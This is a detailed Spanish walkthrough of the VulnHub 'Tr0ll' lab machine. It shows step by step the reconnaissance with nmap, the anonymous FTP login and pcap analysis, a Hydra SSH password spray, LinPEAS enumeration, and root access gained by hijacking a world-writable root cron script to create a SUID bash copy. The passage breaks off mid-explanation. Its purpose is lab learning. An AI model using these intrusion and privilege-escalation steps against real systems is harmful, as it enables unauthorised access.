


# Writeup muy detallado de **Tr0ll** (VulnHub)

> Entorno: laboratorio controlado.
> 
> Objetivo de la máquina: obtener acceso como `root` y recuperar `proof.txt` desde `/root`.

---

## 1. Descripción de la máquina y traducción

La descripción original de la máquina dice:

> **Tr0ll was inspired by the constant trolling of the machines within the OSCP labs.**
>
> **The goal is simple, gain root and get Proof.txt from the /root directory.**
>
> **Not for the easily frustrated! Fair warning, there be trolls ahead!**
>
> **Difficulty: Beginner ; Type: boot2root**

Traducción al español:

- **Tr0ll** fue inspirada en el troleo constante de las máquinas dentro de los laboratorios de OSCP.
- El objetivo es simple: conseguir acceso como **root** y obtener el archivo **Proof.txt** del directorio `/root`.
- No es una máquina para quien se frustra con facilidad. Advertencia: hay troleos por delante.
- Dificultad: **Beginner**.
- Tipo: **boot2root**.

Esto ya nos da una pista psicológica importante antes de empezar. La máquina nos está avisando de que no siempre va a premiar el camino más lógico. Va a haber pistas engañosas, nombres absurdos, rutas raras y decisiones del autor orientadas a hacerte perder tiempo si te dejas llevar por lo obvio. Eso es parte del diseño de la máquina.

---

## 2. Preparación del laboratorio: por qué usar adaptador NAT

Antes de encender las máquinas configuramos tanto Kali como la víctima en **adaptador NAT**.

### ¿Qué significa NAT en una máquina virtual?

NAT significa **Network Address Translation**. En el contexto de VMware o VirtualBox, esto quiere decir que la máquina virtual no sale directamente a tu red física como un equipo más de tu casa o de tu oficina, sino que vive dentro de una **red privada virtual** creada por el hipervisor.

En la práctica, VMware crea una red interna con un rango privado y actúa como un pequeño router virtual. Tus máquinas virtuales están dentro de esa red y comparten salida hacia fuera a través del servicio NAT de VMware.

### ¿Por qué nos interesa usar NAT aquí?

Nos interesa por varios motivos:

1. **Aislamiento del laboratorio.**
   La víctima y Kali quedan en una red virtual cerrada, sin mezclarse con el resto de dispositivos reales de tu red física.

2. **Menos ruido en los escaneos.**
   Cuando hagas descubrimiento de hosts con Nmap no verás móviles, televisiones, routers ni otros equipos de tu WiFi. Verás básicamente las IP internas del entorno NAT y la víctima.

3. **Más seguridad para practicar.**
   Estás haciendo pruebas ofensivas en una red controlada y aislada, no contra tu red doméstica real.

4. **Escenario de laboratorio más limpio.**
   Es más fácil identificar cuál es la víctima porque el rango suele contener solo unas pocas IPs: gateway NAT, DHCP, la Kali y la máquina vulnerable.

### Diferencia con adaptador puente

En modo **bridge**, la máquina virtual se conecta a la red física como si fuera un dispositivo más de tu router. Eso es útil en algunas máquinas, pero aquí no nos interesa porque complica el reconocimiento y mezcla el laboratorio con el resto de tu infraestructura real.

En NAT, en cambio, el hipervisor nos entrega una red separada. Eso hace que el reconocimiento inicial sea mucho más claro.

---

## 3. Arranque de las máquinas

Encendemos ambas máquinas.

En la máquina **Tr0ll** aparece una consola de login, pero no conocemos las credenciales.



Esto es normal. En este punto todavía no tenemos ninguna credencial válida, así que no intentamos autenticarnos desde la propia consola. El enfoque correcto es pasar al reconocimiento desde Kali.

---

## 4. Identificar nuestra IP y el rango de red

En Kali ejecutamos:

```bash
ip a
```

Nos interesa especialmente la interfaz `eth0`.


La IP relevante es:

```text
192.168.184.128/24
```

### ¿Qué significa `192.168.184.128/24`?

Vamos a descomponerlo bien:

- `192.168.184.128` es la IP que tiene nuestra Kali dentro de la red virtual NAT.
- `/24` es la máscara en notación CIDR.
- Un `/24` equivale a la máscara `255.255.255.0`.
- Eso significa que la red completa abarca desde `192.168.184.0` hasta `192.168.184.255`.

Por tanto, la víctima debería estar en ese mismo rango porque al estar ambas máquinas en **NAT** comparten la misma red virtual del hipervisor.

### ¿Por qué la víctima opera dentro de nuestro mismo rango de red?

Porque NAT en VMware crea una red interna compartida entre las VMs conectadas a ese adaptador. Si Kali está en `192.168.184.128/24`, la víctima debe tener otra IP dentro de ese mismo segmento. Eso es exactamente lo que vamos a comprobar con un escaneo de descubrimiento.

---

## 5. Descubrimiento de hosts con Nmap

Ejecutamos:

```bash
sudo nmap -n -sn 192.168.184.128/24
```

### Explicación completa del comando

#### `sudo`
Nmap necesita privilegios elevados para ciertos tipos de descubrimiento de red, especialmente cuando utiliza paquetes de bajo nivel, ARP y determinadas técnicas de sondeo.

#### `nmap`
Herramienta de reconocimiento de red. Sirve para descubrir hosts, puertos, servicios, versiones y, en general, obtener información de la superficie expuesta de una máquina.

#### `-n`
Le indica a Nmap que **no resuelva DNS**.

Normalmente, Nmap podría intentar traducir direcciones IP a nombres de host haciendo consultas DNS. Eso consume tiempo y a veces mete ruido innecesario.

Con `-n`:

- el escaneo va más rápido,
- no se hacen consultas DNS,
- solo se muestran direcciones IP.

#### `-sn`
Significa **Ping Scan** o escaneo de descubrimiento.

Con esta opción Nmap:

- comprueba qué hosts están activos,
- pero **no escanea puertos**,
- ni intenta identificar servicios.

Es una fase previa de reconocimiento. Primero descubres qué equipos están vivos; después ya te centras en la máquina interesante.

#### `192.168.184.128/24`
Es el rango de red que queremos explorar. Como la máscara es `/24`, Nmap probará las 256 direcciones posibles del segmento `192.168.184.0/24`.

---

## 6. Resultado del descubrimiento de hosts

Obtenemos:

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 12:42 EDT
Nmap scan report for 192.168.184.1
Host is up (0.0015s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)

Nmap scan report for 192.168.184.2
Host is up (0.0010s latency).
MAC Address: 00:50:56:E5:C3:00 (VMware)

Nmap scan report for 192.168.184.130
Host is up (0.00059s latency).
MAC Address: 00:0C:29:AA:85:51 (VMware)

Nmap scan report for 192.168.184.254
Host is up (0.00021s latency).
MAC Address: 00:50:56:F9:64:AE (VMware)

Nmap scan report for 192.168.184.128
Host is up.

Nmap done: 256 IP addresses (5 hosts up) scanned in 1.96 seconds
```

### ¿Qué IP es cada cosa?

#### `192.168.184.128`
Es nuestra **Kali**. Ya lo sabíamos por `ip a`.

#### `192.168.184.1`
Normalmente es el **gateway NAT** de VMware.

Su papel es hacer de router virtual. Las máquinas de la red NAT envían su tráfico a ese gateway y VMware lo traduce hacia fuera.

Es decir:

```text
Kali/VM víctima -> 192.168.184.1 -> red real/Internet
```

#### `192.168.184.2`
Suele ser el **servidor DHCP** del entorno NAT de VMware.

Es el servicio que asigna automáticamente direcciones IP a las máquinas virtuales.

Cuando una VM arranca, envía una petición DHCP y esta dirección responde ofreciendo una IP válida dentro del rango.

#### `192.168.184.254`
Suele ser otra interfaz o elemento interno del servicio NAT de VMware. No nos interesa como objetivo ofensivo, pero es normal que aparezca.

#### `192.168.184.130`
Por descarte y por contexto, esta es la **máquina víctima**.

### ¿Por qué sabemos que la víctima es `192.168.184.130`?

Porque:

- `.128` es Kali,
- `.1`, `.2` y `.254` pertenecen a la infraestructura NAT de VMware,
- la única IP restante que encaja como VM adicional es `.130`.

Por tanto, nuestro objetivo es:

```text
192.168.184.130
```

---

## 7. Escaneo completo de puertos y servicios

Ahora lanzamos el escaneo habitual contra la IP víctima:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.184.130
```

### Explicación detallada de todas las flags

#### `-p-`
Escanea **todos los puertos TCP**, del 1 al 65535.

Si no lo pusieras, Nmap solo escanearía una selección de puertos comunes. En un CTF o en una máquina de laboratorio eso puede hacerte perder servicios interesantes en puertos menos habituales.

#### `--open`
Hace que Nmap muestre solo los **puertos abiertos**.

Esto reduce el ruido en la salida.

#### `-sC`
Ejecuta el conjunto por defecto de scripts NSE de Nmap.

Estos scripts pueden detectar cosas como:

- acceso anónimo en FTP,
- título de una web,
- métodos HTTP,
- banners adicionales,
- configuraciones inseguras sencillas.

#### `-sV`
Intenta identificar la **versión del servicio** que está escuchando en cada puerto.

No solo te dirá “hay FTP”, sino por ejemplo “vsftpd 3.0.2”.

#### `-Pn`
Le dice a Nmap que **no haga descubrimiento previo por ping**.

Trata al host como activo directamente.

Esto es útil cuando un host no responde bien a ping o cuando quieres evitar falsos negativos por filtrado ICMP.

#### `-T5`
Aumenta la velocidad del escaneo al máximo perfil agresivo.

Ventaja:
- va muy rápido.

Desventaja:
- en entornos reales puede perder paquetes,
- algunos servicios pueden responder peor,
- puede producir resultados menos fiables.

En laboratorios suele usarse más libremente, aunque hay que recordar que a veces un escaneo demasiado agresivo te puede ocultar cosas.

#### `-vvv`
Modo **muy verbose**.

Muestra más detalle del progreso, respuestas y decisiones de Nmap.

#### `-oN fullscan`
Guarda la salida normal del escaneo en un archivo llamado `fullscan`.

Esto es muy útil porque:

- puedes revisar luego el resultado,
- no dependes de tu memoria,
- documentas el proceso para el writeup.

---

## 8. Resultados del escaneo de puertos

Se detectan tres puertos abiertos principales:

```text
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/secret
```

### Puerto 21: FTP
Aquí vemos algo muy interesante:

```text
Anonymous FTP login allowed
```

Eso significa que el servidor FTP permite acceso **anónimo**, es decir, sin credenciales reales.

Normalmente se entra con:

- usuario: `anonymous`
- contraseña: cualquier cosa, a menudo un correo o una cadena cualquiera

Esto es una pista muy fuerte de compromiso inicial.

### Puerto 22: SSH
Tenemos un servicio SSH activo:

```text
OpenSSH 6.6.1p1 Ubuntu 2ubuntu2
```

Aún no tenemos credenciales válidas, así que de momento no podemos usarlo. Pero ya sabemos que, si encontramos usuario y contraseña, el puerto 22 será una vía de acceso.

### Puerto 80: HTTP
Hay una web servida por Apache.

Y además Nmap detecta algo especialmente interesante:

```text
robots.txt -> Disallow: /secret
```

Eso no implica vulnerabilidad por sí mismo, pero sí una pista directa sobre una ruta que merece ser revisada.

---

## 9. Acceso anónimo al FTP

Entramos en el FTP:

```bash
ftp -a 192.168.184.130
```

### ¿Qué hace `-a` aquí?
En este contexto fuerza el uso de login anónimo automático en muchos clientes FTP. Como el servidor lo permite, esto nos ahorra teclear manualmente el usuario.

La sesión muestra:

```text
Connected to 192.168.184.130.
220 (vsFTPd 3.0.2)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Listamos archivos:

```text
ftp> ls
229 Entering Extended Passive Mode (|||24593|).
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
226 Directory send OK.
```

### Hallazgo importante
Encontramos un archivo:

```text
lol.pcap
```

Un `.pcap` es una captura de red. Eso significa que contiene tráfico de red grabado. En una máquina de este estilo, un `.pcap` casi siempre es una fuente de pistas:

- credenciales,
- nombres de archivos,
- rutas ocultas,
- interacciones previas de otros usuarios,
- comandos o recursos ya usados en la máquina.

Nos lo descargamos:

```text
ftp> get lol.pcap
```

Y se transfiere correctamente a nuestra Kali.

---

## 10. Exploración de la web inicial

Abrimos en navegador:

```text
http://192.168.184.130:80
```

La página nos muestra una imagen troll.



La web no parece útil a simple vista, pero Nmap nos dio la pista de `robots.txt`, así que vamos a comprobarlo.

---

## 11. robots.txt: función y por qué es interesante

Visitamos:

```text
http://192.168.184.130/robots.txt
```

Contenido:

```text
User-agent:*
Disallow: /secret
```

### ¿Qué es `robots.txt`?

`robots.txt` es un archivo usado por motores de búsqueda y rastreadores web. Sirve para indicar qué rutas no deberían indexarse.

### ¿Por qué es interesante ofensivamente?

Porque muchas veces revela:

- directorios ocultos,
- rutas administrativas,
- backups,
- paneles,
- contenido que el administrador no quería hacer visible en búsquedas.

Importante: **no protege nada**. Solo da una instrucción a los robots. Si una ruta aparece ahí, como atacante debes probarla siempre.

Visitamos:

```text
http://192.168.184.130/secret/
```

Y obtenemos otra imagen troll.


De nuevo, la máquina se está riendo de nosotros. Así que cambiamos de vector y analizamos el `.pcap`.

---

## 12. Análisis del pcap con Wireshark

Abrimos `lol.pcap` con Wireshark.

Vamos a:

```text
Analyze -> Follow -> TCP Stream
```

### ¿Qué hace “Follow TCP Stream”?

Te permite reconstruir una conversación TCP completa entre cliente y servidor, siguiendo el flujo lógico de la sesión. En vez de ver paquetes sueltos, ves el intercambio como una secuencia legible.

Esto es ideal cuando quieres entender qué hizo otro usuario contra un servicio, por ejemplo un FTP.

La conversación muestra:

```text
220 (vsFTPd 3.0.2)

USER anonymous
PASS password
230 Login successful.

SYST
215 UNIX Type: L8

PORT 10,0,0,12,173,198
200 PORT command successful. Consider using PASV.

LIST
150 Here comes the directory listing.
226 Directory send OK.

TYPE I
200 Switching to Binary mode.

PORT 10,0,0,12,202,172
200 PORT command successful. Consider using PASV.

RETR secret_stuff.txt
150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
226 Transfer complete.

TYPE A
200 Switching to ASCII mode.

PORT 10,0,0,12,172,74
LIST
150 Here comes the directory listing.
226 Directory send OK.

QUIT
221 Goodbye.
```

---

## 13. Explicación detallada de la conversación FTP

### `USER anonymous` y `PASS password`
El cliente inicia sesión como usuario anónimo. El FTP lo permite y responde con login exitoso.

### `SYST`
El cliente pregunta qué sistema usa el servidor FTP.

Respuesta:

```text
215 UNIX Type: L8
```

Eso informa de que el servidor es tipo Unix/Linux. Esto ayuda al cliente FTP a interpretar la estructura de permisos y ciertas convenciones.

### `PORT 10,0,0,12,173,198`
Aquí el cliente está usando **FTP en modo activo**.

El comando `PORT` le dice al servidor a qué IP y puerto debe conectarse para la conexión de datos.

La IP codificada:

```text
10,0,0,12 -> 10.0.0.12
```

El puerto se calcula así:

```text
(p1 * 256) + p2
173 * 256 + 198 = 44486
```

Así que el servidor abrirá la conexión de datos hacia `10.0.0.12:44486`.

### `LIST`
Pide el listado del directorio actual.

Respuesta:

- `150`: se abre la conexión de datos,
- `226`: transferencia completada.

Es el equivalente funcional a un `ls`.

### `TYPE I`
Cambia a modo binario.

Se usa para transferir archivos cuyos bytes no deben alterarse:

- binarios,
- imágenes,
- comprimidos,
- capturas.

### `RETR secret_stuff.txt`
Aquí está la pista más importante de todo el pcap.

`RETR` significa **descargar archivo**.

El cliente pidió específicamente:

```text
secret_stuff.txt
```

Eso nos dice que ese archivo existía en el sistema en el momento de la captura.

### `TYPE A`
Cambia a modo ASCII, normalmente para texto y listados.

---

## 14. Iterar por streams y recuperar la pista real

Al recorrer los streams vemos información crucial.

### Stream 1
Nos revela que en el sistema existía:

```text
-rw-r--r--    1 0        0             147 Aug 10 00:38 secret_stuff.txt
```

### Stream 2
Nos da el contenido del archivo descargado:

```text
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P

Sucks, you were so close... gotta TRY HARDER!
```

Traducción aproximada:

> Bueno, bueno, bueno, ¿así que eres un pequeño diablillo listo? Casi encontraste el `sup3rs3cr3tdirlol` :-P
>
> Qué pena, estuviste muy cerca... ¡tienes que esforzarte más!

---

## 15. Interpretar correctamente la pista troll

Aquí está el punto importante.

La máquina está diseñada para trolearte. Eso significa que a veces la pista no es indirecta, sino brutalmente literal.

El mensaje dice:

```text
sup3rs3cr3tdirlol
```

Lo razonable es probarlo **tal cual** como directorio web.

Visitamos:

```text
http://192.168.184.130/sup3rs3cr3tdirlol/
```

Y efectivamente encontramos un índice de directorio.


Dentro vemos un archivo interesante llamado `roflmao`, que se descarga al hacer clic.

Lo movemos a nuestra carpeta de trabajo:

```bash
mv ~/Downloads/roflmao .
```

---

## 16. Análisis básico del binario `roflmao`

Ejecutamos:

```bash
file roflmao
```

Resultado:

```text
roflmao: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=..., not stripped
```

### ¿Qué significa esto?

- **ELF**: es el formato de ejecutables en Linux.
- **32-bit**: binario de 32 bits.
- **Intel i386**: arquitectura x86 de 32 bits.
- **dynamically linked**: usa bibliotecas compartidas del sistema.
- **not stripped**: no se le han eliminado todos los símbolos, lo que a veces facilita análisis adicionales.

Esto nos confirma que es un binario Linux real. No es un texto, ni una imagen, ni un archivo cualquiera.

---

## 17. Uso de `strings` sobre el binario

Ahora hacemos:

```bash
strings roflmao
```

### ¿Qué hace `strings`?

`strings` toma un archivo binario y extrae de él las cadenas de texto imprimibles que contiene.

Eso es útil porque un binario contiene muchísimos bytes ilegibles si lo abres con `cat`, pero entre ellos puede haber:

- mensajes de error,
- rutas,
- nombres de funciones,
- contraseñas,
- pistas,
- textos insertados por el programador.

Entre toda la salida, la pista importante es esta:

```text
Find address 0x0856BF to proceed
```

Es decir:

> Encuentra la dirección `0x0856BF` para continuar.

Esto es completamente raro desde un punto de vista “normal”. Pero como la máquina es troll, precisamente debemos pensar de forma poco convencional.

---

## 18. Probar la dirección hexadecimal como directorio web

La pista dice “Find address 0x0856BF”.

En una máquina convencional uno podría pensar en análisis del binario, direcciones de memoria, reversing, etc. Pero aquí vamos a probar el enfoque troll: poner esa “dirección” directamente en la URL como si fuera una ruta.

Visitamos:

```text
http://192.168.184.130/0x0856BF/
```

Y aparece otro índice de directorio.


Dentro encontramos dos subdirectorios:

- `good_luck/`
- `this_folder_contains_the_password/`

---

## 19. Contenido de `good_luck/`

Entramos en:

```text
http://192.168.184.130/0x0856BF/good_luck/
```

Y vemos el contenido:


Abrimos el `.txt` y aparece:

```text
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Esto parece un listado de posibles nombres de usuario.

### Observación importante
La línea:

```text
genphlux < -- Definitely not this one
```

huele a troleo. En esta máquina no conviene fiarse demasiado de mensajes así. Aun así, no vamos a asumir nada todavía; simplemente recogemos todas las posibilidades.

Creamos un archivo `users` con esos candidatos.

---

## 20. Contenido de `this_folder_contains_the_password/`

Entramos en:

```text
http://192.168.184.130/0x0856BF/this_folder_contains_the_password/
```

Y vemos:


Abrimos el archivo y obtenemos:

```text
Good_job_:)
```

A priori parece una contraseña plausible, así que la guardamos en `Pass.txt` para probarla con Hydra.

---

## 21. Primer intento con Hydra y por qué tiene sentido hacerlo

Tenemos:

- una lista de posibles usuarios,
- una posible contraseña.

Eso encaja perfectamente con un ataque de fuerza bruta o, más bien, de **spraying sencillo** contra SSH.

Ejecutamos:

```bash
hydra -L users -P Pass.txt ssh://192.168.184.130
```

### Explicación de las flags

#### `-L users`
Indica a Hydra que use el archivo `users` como lista de nombres de usuario.

#### `-P Pass.txt`
Indica a Hydra que use el archivo `Pass.txt` como lista de contraseñas.

#### `ssh://192.168.184.130`
Define el protocolo y el objetivo. En este caso, Hydra atacará el servicio SSH de la víctima.

### ¿Por qué este ataque es razonable?

Porque ya sabemos que:

- el puerto 22 está abierto,
- hay una lista de usuarios,
- hay una pista que parece contraseña,
- la máquina ya ha demostrado un diseño basado en archivos y rutas raras.

Sin embargo, este intento falla:

```text
0 valid password found
```

---

## 22. Reinterpretar la pista: pensamiento troll

Aquí hay que pensar como el autor de la máquina.

Si la máquina ya nos ha troleado varias veces:

- con imágenes absurdas,
- con rutas rarísimas,
- con una dirección hexadecimal usada como directorio,

entonces es totalmente plausible que el archivo llamado `Pass.txt` contenga una cadena de distracción, y que la verdadera contraseña sea precisamente el **nombre del archivo**.

Es decir, en vez de usar como contraseña el contenido:

```text
Good_job_:)
```

probamos con:

```text
Pass.txt
```

Volvemos a lanzar Hydra usando esa contraseña y obtenemos un resultado válido:

```text
[22][ssh] host: 192.168.184.130   login: overflow   password: Pass.txt
```

Hallazgo real:

- usuario: `overflow`
- contraseña: `Pass.txt`

---

## 23. Acceso inicial por SSH

Nos conectamos:

```bash
ssh overflow@192.168.184.130
```

La sesión muestra:

```text
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)
...
Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory
```

### ¿Qué significa `Could not chdir to home directory /home/overflow`?

Que el usuario `overflow` existe y puede autenticarse, pero su home configurado no existe en el sistema.

No impide el acceso, simplemente significa que al iniciar sesión SSH no puede cambiar al directorio home esperado.

Esto es raro, pero no bloqueante. Ya estamos dentro del sistema.

---

## 24. Enumeración local inicial y uso de LinPEAS

Ahora pasamos a la fase de **post-explotación** y **escalada de privilegios**.

Queremos identificar:

- archivos extraños,
- permisos inseguros,
- tareas programadas,
- SUID,
- cron jobs,
- scripts ejecutados por root,
- binarios manipulables.

Para eso usamos **LinPEAS**, una herramienta muy popular de enumeración local en Linux.

### Servir LinPEAS desde Kali

En Kali vamos a la carpeta donde está la herramienta:

```bash
cd /usr/share/peass/linpeas
```

Y levantamos un servidor HTTP simple:

```bash
python3 -m http.server 80
```

### ¿Qué hace `python3 -m http.server 80`?

- `python3`: ejecuta Python 3.
- `-m http.server`: le dice a Python que use su módulo incorporado de servidor web simple.
- `80`: puerto donde escuchará.

Esto convierte el directorio actual en una carpeta servida por HTTP, para que la víctima pueda descargar archivos desde nuestra Kali.

---

## 25. ¿Por qué usar `/tmp` en la víctima?

Dentro de la víctima nos vamos a:

```bash
cd /tmp
```

### ¿Por qué `/tmp`?

Porque `/tmp` es el directorio temporal del sistema y normalmente tiene varias propiedades muy útiles para post-explotación:

1. **Suele ser escribible por usuarios no privilegiados.**
2. **No afecta a la estabilidad de directorios más sensibles.**
3. **Es el sitio típico para dejar herramientas temporales.**
4. **Si algo sale mal, el daño es menor y se puede limpiar más fácil.**

Es la ubicación clásica para descargar scripts como `linpeas.sh`.

---

## 26. Descarga de LinPEAS y explicación de permisos

Descargamos el archivo correcto desde la Kali:

```bash
wget http://192.168.184.128/linpeas.sh
```

El primer `wget http://192.168.184.130` descargó simplemente la página index de la víctima, no la herramienta. El realmente útil es el segundo, apuntando a la Kali (`192.168.184.128`).

Comprobamos:

```text
-rw-rw-r--  1 overflow overflow 971926 Nov 15 07:04 linpeas.sh
```

### ¿Qué significan esos permisos?

`-rw-rw-r--`

Se divide así:

- `-` → archivo normal
- `rw-` → permisos del propietario
- `rw-` → permisos del grupo
- `r--` → permisos de otros

Traducido:

- el propietario puede leer y escribir,
- el grupo puede leer y escribir,
- otros solo pueden leer.

Todavía **no** tiene permiso de ejecución.

Por eso hacemos:

```bash
chmod +x linpeas.sh
```

Y queda algo como:

```text
-rwxrwxr-x
```

### ¿Qué cambia con `chmod +x`?

Se añade el bit de ejecución.

Ahora el archivo puede ejecutarse como script:

- propietario: leer, escribir, ejecutar
- grupo: leer, escribir, ejecutar
- otros: leer y ejecutar

---

## 27. Un detalle operativo: la sesión SSH se cae cada 5 minutos

Comentaste que esta máquina tiene el SSH configurado de forma que cada 5 minutos nos echa de la sesión.

Eso importa por dos motivos:

1. Conviene trabajar rápido o dejar comandos preparados.
2. Si una técnica requiere esperar, hay que hacerlo con paciencia o reabrir sesión si se corta.

No cambia la explotación, pero sí la forma de operar.

---

## 28. Hallazgo clave de LinPEAS

El resultado interesante fue:

```text
/lib/log/cleaner.py
/run/lock
/run/shm
/run/user/1002
/srv/ftp/lol.pcap
/tmp
/var/log/cronlog
/var/tmp
/var/tmp/cleaner.py.swp
/var/www/html/sup3rs3cr3tdirlol/roflmao
```

### ¿Qué está buscando aquí LinPEAS?

Está listando archivos y ubicaciones interesantes que son:

- escribibles por nuestro usuario,
- o escribibles por todos,
- especialmente fuera de nuestro home.

La lógica ofensiva aquí es muy importante:

> Si puedo escribir en algo que otro usuario más privilegiado ejecuta, puedo escalar privilegios.

Y precisamente uno de los hallazgos más sospechosos es:

```text
/lib/log/cleaner.py
```

No es una ubicación especialmente habitual para un script que además resulte escribible por cualquiera. Suena artificial. Eso, en una máquina de laboratorio, casi siempre es intencional.

---

## 29. Inspección de `/lib/log/cleaner.py`

Hacemos:

```bash
ls -la /lib/log/cleaner.py
```

Resultado:

```text
-rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```

### ¿Por qué esto es gravísimo?

Porque:

- el archivo pertenece a `root:root`,
- pero tiene permisos `777`,
- es decir, **cualquier usuario puede leerlo, escribirlo y ejecutarlo**.

Vamos a descomponer `-rwxrwxrwx`:

- `rwx` para el propietario (`root`)
- `rwx` para el grupo
- `rwx` para otros

Traducción:

**todo el mundo puede modificarlo**.

Si ese script se ejecuta de forma automática por root, entonces controlar su contenido equivale a conseguir que root ejecute comandos que nosotros elijamos.

Eso es una escalada de privilegios de manual.

---

## 30. Contenido original del script y explicación del código Python

Hacemos:

```bash
cat /lib/log/cleaner.py
```

Y vemos:

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

### Explicación línea por línea

#### `#!/usr/bin/env python`
Es el **shebang**. Le indica al sistema que este script debe ejecutarse con Python.

#### `import os`
Importa el módulo `os`, que permite interactuar con funciones del sistema operativo.

#### `import sys`
Importa el módulo `sys`, útil aquí para salir del script si hay un error.

#### `try:`
Comienza un bloque de manejo de errores.

#### `os.system('rm -r /tmp/* ')`
Esta es la línea más importante.

`os.system()` ejecuta un comando del sistema operativo como si lo lanzaras desde una shell.

El comando ejecutado es:

```bash
rm -r /tmp/*
```

### ¿Qué hace `rm -r /tmp/*`?

- `rm` → borra archivos.
- `-r` → borra de forma recursiva.
- `/tmp/*` → todo el contenido del directorio `/tmp`.

Es decir: **limpia `/tmp`** borrando su contenido.

#### `except:`
Si ocurre cualquier error, entra aquí.

#### `sys.exit()`
Sale del script.

---

## 31. Qué deducimos de este script

Deducimos dos cosas muy importantes:

1. El script seguramente se ejecuta de forma recurrente o automática.
   Eso explicaría por qué el contenido de `/tmp` desaparece con el tiempo.

2. Si nosotros podemos modificarlo y el script se ejecuta como root, podemos sustituir esa lógica por una acción maliciosa que nos beneficie.

En vez de hacer una reverse shell, aquí elegiste una técnica especialmente elegante y muy típica de escalada en Linux: **crear una copia SUID de bash**.

---

## 32. Modificación del script para crear un bash SUID

Añadimos al script algo como:

```python
os.system('cp /bin/bash /tmp/bash')
os.system('chmod u+s /tmp/bash')
```

### Explicación exacta de cada línea

#### `os.system('cp /bin/bash /tmp/bash')`
Le dice al sistema:

- copia el binario `/bin/bash`
- a una nueva ruta: `/tmp/bash`

Esto nos deja una copia de `bash` en `/tmp`.

#### `os.system('chmod u+s /tmp/bash')`
Ahora se modifica el permiso de ese nuevo archivo.

`chmod u+s` activa el **bit SUID** para el usuario propietario.

### ¿Qué es el bit SUID?

SUID significa **Set User ID**.

Cuando un binario tiene SUID y pertenece a root, cualquier usuario que lo ejecute puede hacer que el proceso se ejecute con el **UID efectivo de root**.

Eso no significa que todos los binarios SUID sean explotables, pero en el caso de `bash` sí puede aprovecharse si se invoca correctamente.

### ¿Por qué esto funciona aquí?

Porque el script lo ejecuta root.

Entonces:

1. root copia `/bin/bash` a `/tmp/bash`,
2. root le pone el bit SUID,
3. el nuevo archivo queda propiedad de root,
4. nosotros, como usuario normal, podremos ejecutarlo después.

---

## 33. Esperar a que el script se ejecute y comprobar el resultado

Tras esperar un tiempo, comprobamos `/tmp`:

```bash
ls -la /tmp
```

Y aparece:

```text
-rwsr-xr-x  1 root root 986672 Mar 11 12:28 bash
```

### ¿Por qué la `s` es tan importante?

En `-rwsr-xr-x`:

- `rws` corresponde a los permisos del propietario,
- esa `s` indica que el bit SUID está activo.

El archivo es:

- propiedad de `root`,
- ejecutable,
- con SUID.

Eso es exactamente lo que queríamos.

---

## 34. Buscar en GTFOBins cómo abusar de `bash` con SUID

Consultamos GTFOBins para `bash` en el apartado SUID.

GTFOBins es un repositorio de binarios legítimos de Unix/Linux y maneras de abusarlos en contextos ofensivos, por ejemplo:

- cuando tienen SUID,
- cuando pueden ejecutarse con sudo,
- cuando tienen capabilities,
- cuando permiten leer o escribir archivos.

En nuestro caso nos interesa cómo explotar un `bash` con SUID.

---

## 35. Explotación del bash SUID

Ejecutamos:

```bash
cd /tmp
./bash -p
```

Y obtenemos:

```text
bash-4.3# whoami
root
```

### ¿Por qué usamos `-p`?

Esto es muy importante.

Cuando ejecutas `bash` con SUID, `bash` puede intentar **bajar privilegios** por seguridad.

Con la opción `-p`, le estás diciendo:

> conserva los privilegios efectivos, no los reduzcas.

Es decir:

